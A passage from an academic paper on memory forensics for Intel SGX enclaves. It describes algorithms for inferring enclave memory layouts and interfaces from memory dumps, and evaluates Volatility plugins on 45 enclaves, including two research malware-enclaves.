in the untrusted memory of user-space processes.
In particular, we discuss the recovery of the enclave memory layout and the 
enclave interface.

\subsubsection{Enclave Memory Layout Analysis}

\begin{figure}[t]
	\centering
	\begin{subfigure}[t]{0.49\linewidth}
		\centering
		
\includegraphics[width=\textwidth]{fig_c8/memory_layout_api}
		\caption{Example of Memory layout of\\Intel SGX SDK.}
		\label{fig:memory_layout_api}
	\end{subfigure}
	\hfill
	\begin{subfigure}[t]{0.49\linewidth}
		\centering
		
\includegraphics[width=\textwidth]{fig_c8/memory_layout_container}
		\caption{Example of Memory layout of Graphene.}
		\label{fig:memory_layout_container}
	\end{subfigure}
	\caption[Memory layout example.]{Memory layout example for API-like and 
	Container-like frameworks.}
	\label{fig:memory_layout}
\end{figure}

It is possible to infer 
the enclave memory layout by inspecting the page permissions of its ELRANGE. 
The Intel documentation proposes a well-defined internal layout that helps 
defining multi-thread enclaves and is thus adopted by all the API-like 
frameworks we analyzed. 
However, the enclave memory layout is quite flexible, as in the case of the 
Container-like frameworks. We implemented an algorithm that is able to analyze 
the enclave memory layout and automatically infers if the framework is an 
API-like, a Container-like, or none of them.
In Figure~\ref{fig:memory_layout}, we exemplify an API-like and a 
Container-like framework.
Below, we describe what information can be gathered in the two scenarios
and we discuss what can be done when the enclave does not follow any known 
structure.

\vspace{0.2cm}
\noindent \textbf{API Like} -- All the API-like frameworks that we studied 
follow the
standard Intel SGX SDK layout, which is exemplified in
Figure~\ref{fig:memory_layout_api}. This layout does not have \texttt{rwx}
pages by default and it expects as first pages respectively the enclave header, 
the code,
constants, and the global objects (\eg BSS or heap data). The rest of
the memory is dedicated to the trusted threads~\citep{intel-developer-guide}. In
particular, a trusted thread is composed of four parts:
\begin{enumerate*}[label=(\roman*)]
	\item the stack space,
	\item the Thread Control Structure (TCS),
	\item a fixed number of State State Area (SSA), and
	\item the Thread-Local Storage (TLS)
\end{enumerate*}.
The same structure is repeated for each trusted thread.

TCSs are particularly important because they are used as input for
\texttt{ENCLU}. Moreover, modern SGX threats use TCS addresses for ROP-chains 
that interacts with the enclave~\citep{snakegx}. 
Therefore, inferring the TCSs is crucial for an analyst to identify such 
threats in memory.

\vspace{0.2cm}
\noindent \textbf{Container-like} -- This second type of enclaves usually 
adopts custom layouts
that are designed to host whole applications, as shown in
Figure~\ref{fig:memory_layout_container}. These frameworks also contain
libraries to simulate an operating system~\citep{tsai2017graphene} and allocate 
one or more \texttt{rwx} blocks for the loaded application.
Due to the custom nature of these frameworks, we cannot infer important
structures, such as TCSs. However, an analyst can estimate the size of the 
loaded application
by measuring the size of the \texttt{rwx} area.

\vspace{0.2cm}
\noindent \textbf{Unknown} -- 
If the enclave does not fall in the previous two classes, the information that 
can be
extracted in an automated fashion is very limited. However, it is still 
possible to gather
few clues by observing the page permissions.
For instance, an analyst can locate and measure the size of executable pages, 
which reveals 
the amount of code loaded in the enclave.
Moreover, it is possible to enumerate writable pages (\ie \texttt{rw*}), that 
likely point to data
location.

\subsubsection{Enclave Interface Analysis}

The \emph{enclave} interface reveals the type of interaction with the 
underlying OS.
However, the \emph{enclave} interface strictly depends from the adopted 
development 
framework.
To this end, we compiled a list of framework fingerprints composed by 
specific tokens, list of loaded libraries, and name patterns of the main 
ELF file used. By using these signatures, it is possible to identify the 
framework
and retrieve the interface information.

In case the framework is unknown, such as for a custom 
SGX malware, there is no automatic way to infer the enclave interface. 
However, the host process still requires to invoke an \texttt{ENCLU} opcode to 
interact with the enclave (Section~\ref{sec:software-guard-extension}).
This reveals the low-level entry-point of the enclave, which serves as starting
location for the analyst to manually reverse engineer the enclave interface.

In case of a known development framework, instead, we propose an 
automatic interface extraction that is based on a combination of memory 
forensic and reverse engineering techniques, with a similar approach of what 
\cite{grazianohyper} implemented for the analysis of hypervisors.
Overall, our analysis is composed of two steps. First, we locate meaningful
structures inside a memory dump (\eg \emph{outside functions} are organized as
an array of function pointers). Then, we apply a lightweight static analysis 
phase to identify the
usage of such structures (\eg the function \texttt{sgx\_ecall} accepts an array
of function pointers as third parameter). This approach 
is sound, because the code is automatically generated by the
framework and thus follows predictable patterns.

It would also be possible to employ more sophisticated semantic software 
similarity techniques~\citep{pei2020trex}. However, due the nature of the 
\emph{edge} component, we argue that static approaches best suit our scenario.
And in fact, our static analysis solution resulted in zero false positive and 
zero false negative in our experiments (Section~\ref{ssec:correctness}).
In the following, we provide some examples on how we recognize \emph{outside} 
and \emph{secure functions}, respectively.

Our approach is based upon two observations. First, important functions (\eg 
\emph{outside functions}) are always organized in an array of function pointers 
(\eg \emph{ocall\_tables}). 
Second, the location of these structures is hard-coded in 
crucial utilities.
This allows us to automatically locate the usage of
this structure in the code by checking the signature of known functions.
For instance, in case of the Intel SGX SDK, \texttt{sgx\_ecall} functions 
expects a pointer to an \emph{ocall\_table} as third parameter (\ie the register
\texttt{rdx} for Linux $64$).
Moreover, the \emph{secure functions} (in  Intel SGX SDK) always invoke 
\texttt{sgx\_ecall} from an external library (\texttt{libsgx\_urt.so}), thus 
importing the symbol.
Therefore, locating the invocations points to \texttt{sgx\_ecall} reveals 
both \emph{outside} and \emph{secure functions}.
In Section~\ref{apx:interface-analysis}, we detail the algorithm used.

Recovering the enclave interface is important when the enclave content is
inaccessible (\eg the enclave is in release mode). 
For instance, an analyst might find an undocumented enclave in the system (\eg 
a malware-enclave) and he is interesting in studying its behavior.
In this case, the \emph{secure functions} indicate the 
data accepted by the enclave, \eg buffers, pointers to the untrusted memory. 
The \emph{outside functions}, instead, represent the interaction with 
the system, \eg writing files, network communication.
The combination of \emph{outside} and \emph{secure functions}, therefore, can 
give an intuition of the internal enclave logic.

\section{Interface Analysis Algorithms}
\label{apx:interface-analysis}

These are the pseudo-code used to extract either \emph{secure} and 
\emph{outside functions} from a process memory dump.
The Algorithm~\ref{alg:interface-sgxsdk-rustsgx} shows our approach for the 
Intel SGX SDK and RUST-SGK, the Algorithm~\ref{alg:interface-openenclave} shows 
our approach for Open Enclave SDK, and finally the 
Algorithm~\ref{alg:interface-graphene-sgxlkl} shows our approach for Graphene 
and SGX-LKL.

\subsection{Intel SGX SDK and RUST-SGX}
Alg.~\ref{alg:interface-sgxsdk-rustsgx} describes the approach for these two
frameworks.
In particular, we exploit the fact that the host application imports the
symbols \texttt{sgx\_ecall} from \texttt{libsgx\_urts.so}.

In the algorithm, we first create a list of \emph{ecall}
(line~\ref{alg:sgxsdk:2}) and confirmed \emph{ocall\_table}s
(line~\ref{alg:sgxsdk:3}); that will contain the enclave interfaces.
Then, we extract a list of possible \emph{ocall\_tables} from the \texttt{r--}
and \texttt{r-x} pages of the ELF extracted from memory 
(line~\ref{alg:sgxsdk:4}).
We consider possible \emph{ocall\_tables} any list of addresses (\ie sequence
of $8$ bytes) that point to \texttt{r-x} pages of the main ELF.
In the rest of the algorithm, we apply a static analysis pass on the code
scanning all functions (line~\ref{alg:sgxsdk:5}).
Our goal is to identify those functions $f$ that invoke \texttt{sgx\_ecall} by
using one of the possible \emph{ocall\_table} as parameter
(line~\ref{alg:sgxsdk:7}).
% Since we deal with Linux $64$bit machines, we except that the
% \emph{ocall\_table} is assigned to the register \texttt{rdx}.
Once we locate a function that satisfies our requirements, we save the function
$f$ in \emph{ecall\_list} and its \emph{ocall\_table} in
\emph{ocall\_table\_conf} (lines~\ref{alg:sgxsdk:8} and~\ref{alg:sgxsdk:9}).
Finally, we return \emph{ecall\_list} and \emph{ocall\_table\_conf}
(line~\ref{alg:sgxsdk:11}).

\subsection{Open Enclave SDK}
Alg.~\ref{alg:interface-openenclave} describes the approach for Open Enclave
SDK.
In this case, the framework identifies the \emph{secure functions} through
string tokens that are grouped in an array of strings, called
\emph{ecall\_tokens}.
% We thus integrate a similar approach than \emph{ocall\_table}.

In the algorithm, we first create a list of \emph{ecall}
(line~\ref{alg:open:2}) and confirmed \emph{ocall\_table}s
(line~\ref{alg:open:3}); that will contain the enclave interfaces.
Moreover, we create a list of \emph{ecall\_tokens\_conf}
(line~\ref{alg:open:4}).
At this point, we extract a list of possible \emph{ocall\_tables}
(line~\ref{alg:open:5}) and a list of possible \emph{ecall\_tokens}
(line~\ref{alg:open:6}) from the \texttt{r--} and \texttt{r-x} pages of the
main ELF.
We consider possible \emph{ocall\_tables} any list of addresses (\ie sequence
of $8$ bytes) that point to \texttt{r-x} pages of the main ELF.
Moreover, we consider possible \emph{ecall\_tokens} any array of
null-terminated ascii strings.
In the rest of the algorithm, we statically analyse all functions
(line~\ref{alg:open:7}).
to identify those functions $f$ that invokes
\texttt{oe\_create\_enclave}, the function used to create an enclave.
In particular, \texttt{oe\_create\_enclave} expects an \emph{ocall\_table} as
8th parameter (pushed into the stack) and \texttt{ecall\_token} as third
parameter (line~\ref{alg:open:9}).
Once we locate a function that satisfies our requirements, we save the
\emph{ocall\_table} in \emph{ocall\_table\_conf} and the \emph{ecall\_tokens}
in \emph{ecall\_tokens\_conf} (lines~\ref{alg:open:10} and~\ref{alg:open:11}).
The \emph{ecall\_tokens} are also used in the actual \emph{secure function}
invocation.
We thus scan the functions and select those that have a pointer to one of the
\emph{ecall\_tokens\_conf} elements (line~\ref{alg:open:13}
to~\ref{alg:open:15}).
Finally, we return \emph{ecall\_list} and \emph{ocall\_table\_conf}
(line~\ref{alg:open:17}).


\subsection{Graphene and SGX-LKL}
Alg.~\ref{alg:interface-graphene-sgxlkl} describes the approach for these two
frameworks.
In this case, the enclave exposes \emph{one} secure function that boots
the application loaded into the enclave.

In the algorithm, we list the functions that contain the \texttt{ENCLU} opcode
in the main ELF memory space (line~\ref{alg:cont:2}).
The \texttt{ENCLU} plays the role of \emph{ecall} for the enclave.
Then, we create a list of confirmed \emph{ocall\_table}s
(line~\ref{alg:cont:3}) and extract a list of possible \emph{ocall\_tables}
from the \texttt{r--} and \texttt{r-x} pages of the main ELF
(line~\ref{alg:cont:4}).
In the rest of the algorithm, we scan all functions (line~\ref{alg:cont:5}).
to identify those functions $f$ that refers to \emph{ocall\_table}
(line~\ref{alg:cont:6}).
Here, Graphene and SGX-LKL refers to \emph{ocall\_table} in a slightly
different way, but for sake of simplicity we consider both cases equivalent.
Once we locate a function that satisfy our requirements, we consider the pointed
\emph{ocall\_table} as confirmed an we save its reference to
\emph{ocall\_table\_conf} (lines~\ref{alg:cont:7}).
Finally, we return \emph{ecall\_list} and \emph{ocall\_table\_conf}
(line~\ref{alg:cont:9}).


\begin{algorithm}[t]
	\SetAlgoLined
	\DontPrintSemicolon
	\SetKwFunction{algo}{get\_interface}
	\SetKwProg{myalg}{}{}{}
	\myalg{\algo{\texttt{process}}} {
		$\texttt{ecall\_list} \gets \emptyset$\;\label{alg:sgxsdk:2}
		$\texttt{ocall\_table\_conf} \gets \emptyset$\;\label{alg:sgxsdk:3}
		$\texttt{ocall\_tables} \gets
		\texttt{find\_ocall\_table()}$\;\label{alg:sgxsdk:4}
		\For{$f \in \texttt{process.functions}$}{\label{alg:sgxsdk:5}
			\uIf{$f~\emph{contains call to}~\texttt{sgx\_ecall}~\wedge$ \\
				$f~\emph{has}~rdx~\emph{pointing to}~\texttt{ocall\_tables}$}
			{\label{alg:sgxsdk:7}
				$\texttt{ecall\_list} \gets f$\;\label{alg:sgxsdk:8}
				$\texttt{ocall\_table\_conf} \gets
				\emph{rdx}$\;\label{alg:sgxsdk:9}
			}
		}
		\Return $(\texttt{ecall\_list},
		\texttt{ocall\_table\_conf})$\;\label{alg:sgxsdk:11}
	}
	\caption{Interface pseudo-code for Intel SGX SDK and RUST-SGX.}
	\label{alg:interface-sgxsdk-rustsgx}
\end{algorithm}


\begin{algorithm}[t]
	\SetAlgoLined
	\DontPrintSemicolon
	\SetKwFunction{algo}{get\_interface}
	\SetKwProg{myalg}{}{}{}
	\myalg{\algo{\texttt{process}}} {
		$\texttt{ecall\_list} \gets \emptyset$\;\label{alg:open:2}
		$\texttt{ocall\_table\_conf} \gets \emptyset$\;\label{alg:open:3}
		$\texttt{ecall\_tokens\_conf} \gets \emptyset$\;\label{alg:open:4}
		$\texttt{ocall\_tables} \gets
		\texttt{find\_ocall\_table()}$\;\label{alg:open:5}
		$\texttt{ecall\_tokens} \gets
		\texttt{find\_ecall\_tokens()}$\;\label{alg:open:6}
		\For{$f \in \texttt{process.functions}$}{\label{alg:open:7}
			\uIf{$f~\emph{has}~X~\emph{pointing
					to}~\texttt{ocall\_tables}~\wedge$ \\\label{alg:open:9}
				$f~\emph{has}~Y~\emph{pointing to}~\texttt{ecall\_tokens}$} {
				$\texttt{ocall\_table\_conf} \gets X$\;\label{alg:open:10}
				$\texttt{ecall\_tokens\_conf} \gets Y$\;\label{alg:open:11}
			}
		}
		\For{$f \in \texttt{process.functions}$}{\label{alg:open:13}
			\uIf{$f~\emph{has a pointer to}~\texttt{ecall\_tokens\_conf}$} {
				$\texttt{ecall\_list} \gets f$\;\label{alg:open:15}
			}
		}
		\Return $(\texttt{ecall\_list},
		\texttt{ocall\_table\_conf})$\;\label{alg:open:17}
	}
	\caption{Interface pseudo-code for Open Enclave SDK.}
	\label{alg:interface-openenclave}
\end{algorithm}

\begin{algorithm}[t]
	\SetAlgoLined
	\DontPrintSemicolon
	\SetKwFunction{algo}{get\_interface}
	\SetKwProg{myalg}{}{}{}
	\myalg{\algo{\texttt{process}}} {
		$\texttt{ecall\_list} \gets
		\texttt{find\_enclu}(\texttt{process})$\;\label{alg:cont:2}
		$\texttt{ocall\_table\_conf} \gets \emptyset$\;\label{alg:cont:3}
		$\texttt{ocall\_tables} \gets
		\texttt{find\_ocall\_table()}$\;\label{alg:cont:4}
		\For{$f \in \texttt{process.functions}$}{\label{alg:cont:5}
			\uIf{$f~\emph{has}~X~\emph{pointing to}~\texttt{ocall\_tables}$}
			{\label{alg:cont:6}
				$\texttt{ocall\_table\_conf} \gets X$\;\label{alg:cont:7}
			}
		}
		\Return $(\texttt{ecall\_list},
		\texttt{ocall\_table\_conf})$\;\label{alg:cont:9}
	}
	\caption{Interface pseudo-code for Graphene and SGX-LKL.}
	\label{alg:interface-graphene-sgxlkl}
\end{algorithm}


\section{Evaluation}
\label{sec:memfor_evaluation}

We implemented our techniques as a set of plugins for 
Volatility~\citep{volatility} 
version 2.6.1. We built the static analysis component on top of 
radare2~\citep{radare2} 
(commit \texttt{..C4B4BF52}), and for the acquisition we extended 
LiME~\citep{lime} (commit \texttt{..3864A39F}).
All components are released as open source.\footnote{The proof-of-concept tools 
	are available at https://github.com/tregua87/sgx-forensic .}
% IT IS SINGLE BLIND

\vspace{0.2cm}
\noindent \textbf{Experiments Setup} -- 
% \vspace{0.2cm}
% \noindent \textbf{Experimental Environments} --
To test our solution both with and without a virtualization layer, we
repeated each experiment in two different environments: a bare metal
machine and a virtual machine running in the Microsoft Azure
cloud~\citep{azure}.
% We opted for Microsoft Azure as an example of cloud computing provider for two
% reasons:
% \begin{enumerate*}[label=(\roman*)]
% 	\item to investigate the robustness of our approach in the presence of a
% 	virtualization; and
% 	\item the have a machine compatible with the new Intel \texttt{DCAP}
% 	drivers.
% \end{enumerate*}
The bare metal machine was a $64$bit machine equipped with an Intel i7-8565 CPU
and $16$GB of RAM. Its operating system was an Ubuntu 18.04 with kernel version
5.4.0-42-generic using the legacy Intel \texttt{isgx} driver version 2.11.0.
For the virtual machine, we used a Standard D4 v3 $64$bit Gen2 machine equipped
with $4$ vCPUs and $16$GB of RAM. Its operating system was an Ubuntu 18.04 with
kernel version 5.4.0-1034-azure and it mounted the Intel \texttt{DCAP}
driver version 1.33.

\vspace{0.2cm}
\noindent \textbf{Dataset} -- 
To evaluate the techniques presented in Section~\ref{sec:memory-forensic-sgx},
we collected a dataset of $45$ enclaves.
%whose distribution is detailed in Table~\ref{tbl:dataset}.
In particular, we included $40$ samples taken from the repository of the 
respective
development frameworks.
These samples contain different types of applications that range from simple
features demonstrations to complex projects such as databases and Web servers.
We also included three enclaves distributed by \cite{conclave}, which 
is a commercial development framework for SGX.
Finally, we included two malware-enclaves, SGX-ROP~\citep{sgxrop} and
SnakeGX~\citep{snakegx}.
For sample labeling, we followed this convention: the sample name is the
concatenation of the development framework, the driver, and an incremental
number, for instance, \textbf{S-I-1} indicates the first enclave among those 
using the Intel \textbf{S}GX SDK
and the \emph{\textbf{i}sgx} driver. 

\newcolumntype{I}{c@{\hspace{-0.2in}}c@{\hspace{-0.2in}}}
\newcolumntype{J}{c@{\hspace{-0.005in}}c}
\newcommand*\rot[1]{\hbox to1em{\hss\rotatebox[origin=br]{-90}{#1}}}
\def\arraystretch{0.80}

\begin{table}
	\begin{tabular}{l|l}
		\begin{minipage}[t]{.45\textwidth}
			\scriptsize
			\centering
			\begin{threeparttable}[Ht!]
				\begin{tabularx}{\columnwidth}{Xrrrc}
					\toprule
					\textbf{Sample\tnote{1}} & 
					\rot{\textbf{Flags\tnote{2}}}&\rot{\textbf{Ecall}}&\rot{\textbf{Ocall}}&
					% \multicolumn{3}{c}{\textbf{Properties}} & 
					\textbf{Time (s)}\\
					\midrule
					\multicolumn{5}{c}{\textbf{Intel SDK-isgx}} \\
					\midrule
					S-I-1  & - & 25 & 6  & 61 \\
					S-I-2  & - & 4  & 7  & 83 \\
					S-I-3  & - & 32 & 11 & 87 \\
					S-I-4  & - & 3  & 4  & 40 \\
					S-I-5  & - & 2  & 5  & 46 \\
					S-I-6  & - & 3  & 4  & 41 \\
					S-I-7  & - & 32 & 11 & 88 \\
					\midrule
					\multicolumn{5}{c}{\textbf{Open Enclave-isgx}} \\
					\midrule
					O-I-1  & - & 6  & 82  & 237 \\
					O-I-2  & - & 9  & 83  & 261 \\
					O-I-3  & - & 7  & 81  & 341 \\
					O-I-4  & - & 7  & 81  & 344 \\
					O-I-5  & - & 8  & 81  & 228 \\
					O-I-6  & - & 6  & 82  & 201 \\
					O-I-7  & - & 7  & 81  & 346 \\
					O-I-8  & - & 6  & 82  & 238 \\
					\midrule
					\multicolumn{5}{c}{\textbf{Asylo-isgx}} \\
					\midrule
					A-I-1  & - & 1  & 0  & 324 \\
					A-I-2  & - & 1  & 0  & 459 \\
					A-I-3  & - & 1  & 0  & 339 \\
					A-I-4  & - & 1  & 0  & 451 \\
					A-I-5  & - & 1  & 0  & 297 \\
					\midrule
					\multicolumn{5}{c}{\textbf{Rust SDK-isgx}} \\
					\midrule
					R-I-1  & - & 6  & 62  & 685 \\
					R-I-2  & - & 3  & 60  & 369 \\
					R-I-3  & - & 9  & 85  & 509 \\
					R-I-4  & - & 8  & 85  & 468 \\
					R-I-5  & - & 3  & 60  & 400 \\
					R-I-6  & - & 3  & 70  & 66 \\
					R-I-7\tnote{3}  & - & 3 & 60  & 59 \\
					\midrule
				\end{tabularx}
			\end{threeparttable}
		\end{minipage}
		&
		\begin{minipage}[t]{.45\textwidth}
			\scriptsize
			\centering
			\begin{threeparttable}[Ht!]
				\begin{tabularx}{\columnwidth}{Xrrrc}
					\toprule
					\textbf{Sample\tnote{1}} & 
					\rot{\textbf{Flags\tnote{2}}}&\rot{\textbf{Ecall}}&\rot{\textbf{Ocall}}&
					% \multicolumn{3}{c}{\textbf{Properties}} & 
					\textbf{Time (s)}\\
					% &\rot{Flags\tnote{2}}&\rot{Ecall}&\rot{Ocall}& \\
					\midrule
					\multicolumn{5}{c}{\textbf{Graphene-isgx}} \\
					\midrule
					G-I-1  & E & 1  & 40  & 64 \\
					G-I-2  & - & 1  & 40  & 65 \\
					G-I-3  & - & 1  & 40  & 64 \\
					G-I-4  & - & 1  & 40  & 82 \\
					G-I-5  & - & 1  & 40  & 108 \\
					G-I-6  & - & 1  & 40  & 64 \\
					G-I-7  & E & 1  & 40  & 75 \\
					G-I-8  & E & 1  & 40  & 67 \\
					G-I-9  & E & 1  & 40  & 68 \\
					\midrule
					\multicolumn{5}{c}{\textbf{SGX LKL-isgx}} \\
					\midrule
					L-I-1  & - & 1  & 17  & 217 \\
					L-I-2  & - & 1  & 17  & 531 \\
					L-I-3  & - & 1  & 17  & 250 \\
					L-I-4  & - & 1  & 17  & 390 \\
					\midrule
					\multicolumn{5}{c}{\textbf{Samples from \cite{conclave}}} \\
					\midrule
					S-D-1  & - & 4 & 13  & 1800 \\
					S-D-2  & K & 0 & 0   & 8 \\
					S-D-3  & K & 0 & 0   & 9 \\
					\midrule
					\multicolumn{5}{c}{\textbf{Malware-enclave samples}} \\
					\midrule
					SGX-ROP & - & 1 & 1  & 67 \\
					SnakeGX & - & 4 & 0  & 66 \\
					\bottomrule
				\end{tabularx}
				\begin{tablenotes}
					\scriptsize
					\item[1]Format \texttt{framework-driver-sample number}. 
					Frameworks:
					\texttt{A}: Asylo, \texttt{G}: Graphene, \\ \texttt{L}: 
					SGX-LKL,
					\texttt{O}: Open Enclave SDK, \\ \texttt{R}: Rust-SGX, 
					\texttt{S}: Intel
					SGX SDK.\\Drivers: \texttt{I}: Intel \texttt{isgx} 
					\texttt{D}: Intel
					\texttt{DCAP}
					\item[2]E: Evicted, K: Provisioned Keys
					\item[3]See text for more details about the classification 
					of this sample.
				\end{tablenotes}
				\vspace{3mm}
			\end{threeparttable}
		\end{minipage}
	\end{tabular}
	\caption{Analyzed samples.}
	\label{tbl:all_samples}
\end{table}

\subsection{Results}
\label{ssec:correctness}

We designed a set of experiments to validate the ability of our tools to 
correctly acquire 
enclave information from the system memory and 
analyze it in all the conditions depicted in 
Figure~\ref{fig:analysis-map}.

All results are reported in Table~\ref{tbl:all_samples}, where 
for each enclave we report the recovered flags, the number of \emph{ecall} and 
\emph{ocall} extracted by our tool, and the total analysis time.
Since all enclaves expose the flags \texttt{INIT} (which indicates that the 
enclave
is correctly loaded and ready to interact with its host process) and 
\texttt{MODE\_64BIT} (which specifies the architecture), we omit them from the 
table.
Furthermore, the table does not show the \emph{quoting} and the 
\emph{provisioning enclaves}, that however were correctly identified as well 
(Section~\ref{sec:software-guard-extension}).

In terms of performances, our analysis took on average $246.32$s
(around $4$ minutes) per memory dump, with a minimum of $8.59$s and a maximum of
$1800.89$s (around $30$min) for the commercial Conclave enclaves
(for which the  majority of the analysis time was spent to identify the
list of possible structures for \emph{ocall} and \emph{ecall\_table}).

\noindent
\textbf{Acquisition} - 
To begin with, we validated the memory acquisition phase 
(Section~\ref{ssec:memory-dump}) by using 
our modified version of LiME to extract the SGX capabilities of the 
machine (\eg EPC pages, microcode version) and to content of enclaves in debug 
mode.
For the latter, we verified that the code and data extracted from the 
enclaves appeared in the system image and could be inspected by
Volatility plugins and static analysis tools.
The memory acquisition always worked correctly on both bare metal and Azure VM.

\noindent
\textbf{Kernel Drivers Analysis} - 
For the kernel analysis (Section~\ref{ssec:kernel-space-analysis}), we 
simulated a 
system image obtained from standard memory acquisition tools, thus lacking SGX 
information.
In this case, we deduced the presence of SGX from the system logs extracted
from the memory. We also verified that the information inferred from the system 
logs matched 
with the one extracted from our acquisition tool and the original machine.
Then, we tested our capabilities to inspect both Intel drivers (\texttt{isgx} 
and \texttt{DCAP}), thus showing the correct identification of \emph{enclaves}, 
flags, and ELRANGEs.
In addition, for the \texttt{isgx}, we tested the identification of 
\emph{zombie} enclaves in memory.

\noindent
\textbf{Unknown Drivers} - 
We simulated a machine containing unknown drivers to test the heuristic 
described in (Section~\ref{ssec:kernel-space-analysis}). 
As a result, we managed to identify all the \emph{enclaves} and the relative 
process. 
However, we also erroneously classified three processes as containing 
\emph{enclaves} (\ie \emph{xorg}, \emph{insmod}, and \emph{lxcfs}).
This result is expected because our heuristics assumes zero knowledge of SGX 
drivers and EPC zones.
In particular, false positives can appear because a process uses special memory 
pages (\eg associated to MMIO devices) that are similar to the SGX ones (more 
details in Section~\ref{ssec:kernel-space-analysis}).
Other false positives, as in case of \emph{insmod}, are caused by non-atomic 
memory acquisition issues, as already discussed by \cite{pagani2019introducing}.

\noindent
\textbf{User-Space Analysis} - 
For what concerns the user space analysis 
(Section~\ref{ssec:user-space-analyses}), 
we inspected the \emph{enclaves}' memory layouts and correctly inferred the 
type of adopted framework (\ie API-like or Container-like).
Moreover, our tool was able to extract meaningful structure addresses in case 
of API-likes (\eg TCS, SSA) or the loaded process size for Container-like ones.
Then, we applied the interface analysis and located all the \emph{ecall} and 
\emph{ocall} locations in user space.
We manually verified the identified functions by reversing the applications and 
matching them with the respective source files, when possible.
We thus observed that all the functions inferred faithfully matched the
ones defined in the original enclave applications. 
Therefore, our analysis produced \emph{zero} false
positives and \emph{zero} false negatives in locating the enclave interfaces.

\noindent
\textbf{Framework Fingerprinting} - All frameworks were correctly identified,
with the exception of R-I-7, which was wrongly  
classified by our tool as Intel SGX SDK instead of RUST-SGX.
This is due to the fact that the two frameworks share many similarities.
Nonetheless, the plugin managed to correctly retrieve the correct interface 
information.
Finally, we simulated unknown frameworks and successfully locate the 
\texttt{ENCLU} opcodes in the dumps as well.

\section{Case Studies}

We now describe how our SGX forensic analysis guidelines and techniques can
be applied to more complex real-world scenarios.
In particular, we chose three examples: a commercial
application based on a proprietary development framework, and two custom 
malware-enclaves.

\subsection{Commercial SGX application}
\label{ssec:real-product-use-case}

In this first scenario, we try to analyze an image containing an enclave
developed with \cite{conclave}, a commercial SGX development framework 
distributed by \cite{r3}.
Conclave is designed to abstract the SGX programming pattern for standard
Java applications, \eg by including utilities to perform remote attestation.
Moreover, Conclave embeds the native libraries for the interaction between
application and enclave, while the operating system requires only the drivers
installed.
At the time of writing, Conclave works only with the new \texttt{DCAP} driver.

\vspace{0.2cm}
\noindent \textbf{Analysis} --
We loaded the default application delivered with Conclave in an Azure VM and
dumped the system memory with our modified acquisition tool.
Our kernel analysis plugins reported a process containing \emph{three} 
enclaves (samples S-D-1, S-D-2, and S-D-3 in 
Table~\ref{tbl:all_samples}).
The samples S-D-2 and S-D-3 refer to the \emph{quoting} (QE) and the
\emph{provisioning} enclaves (PE), which can be easily identified 
because our system identifies the presence of the \texttt{PROV\_KEY} flag 
(K), which is only used for system enclaves.
In fact, Conclave loads its own copy of QE and PE that work in parallel with 
the ones handled by the \texttt{aesmd} system service.
The third enclave (S-D-1) contains the main application logic.

We then executed our user-space analysis plugin with its default configuration.
As a result, the plugin automatically classified the application as based on 
the Intel
SGX SDK.
This is expected because Conclave is built on top of the standard Intel SGX SDK
and our system did not have specific signature for the commercial framework.
However, out-of-the-box our system failed to recover the enclave interfaces.

This is due to the fact that Conclave handles Java applications, and
therefore the main ELF of the process is the JVM itself --- while the
actual application is mapped as an external library.
To overcame this problem, we identified the shared library containing the main
application by inspecting the imported symbols (as it needs to export the 
symbol \texttt{sgx\_ecall}).
Then, we configured our user-space plugin to analyze that library instead of 
the JVM binary.
This allowed the plugin to correctly locate and report all the interfaces. We 
also analyzed the
outside functions and verified their correctness.
In particular, our plugin allowed us to identify that the enclave performed 
network operations, and to
isolate other \emph{outside functions} for file system interaction
and remote attestation.
Like in all previous experiments, our plugins successfully identified all the 
\emph{ecall}
and \emph{ocall} without false positive nor false negatives.

As mentioned in the previous section, the analysis of the Conclave enclave 
required a
longer time (around $30$min) because the applications contained a large amount
of \texttt{r-x} and \texttt{r--} pages. Therefore, our plugin required more
time to perform the static analysis and extract the possible 
\emph{ocall\_table}.

\subsection{SGX-ROP malware}
\label{ssec:sgx-rop}

In this second scenario, we analyze the first example of malware-enclave 
proposed by 
researchers (SGX-ROP in Table~\ref{tbl:all_samples}).
SGX-ROP exploits TSX to break the ASRL of the host application and
